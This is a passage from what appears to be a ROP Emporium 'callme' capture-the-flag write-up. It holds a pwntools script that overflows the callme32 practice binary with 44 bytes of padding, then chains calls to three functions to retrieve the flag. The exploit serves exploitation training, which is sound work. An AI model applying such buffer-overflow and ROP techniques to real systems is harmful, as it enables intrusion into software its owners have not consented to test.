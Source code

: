 ```python
from pwn import *

# This will automatically get context arch, bits, os etc
elf = context.binary = ELF('./callme32', checksec=False)
p = process()

# How many bytes to EIP?
padding = 44

# ROP
rop = ROP(elf)  # Load rop gadgets

params = [0xdeadbeef,
          0xcafebabe,
          0xd00df00d]

rop.callme_one(*params)
rop.callme_two(*params)
rop.callme_three(*params)

# print(rop.dump())
# pprint(rop.gadgets)

# Rop chain
rop_chain = rop.chain()
info("rop chain: %r", rop_chain)

payload = flat({
    padding: rop_chain  # ROP
}
)

# Save payload to file
write("payload", payload)

# PWN
p.sendlineafter('>', payload)
p.recvuntil('Thank you!\n')

# Get our flag!
flag = p.recv()
success(flag)
```
---
Let's do the 64-bit binary :
---

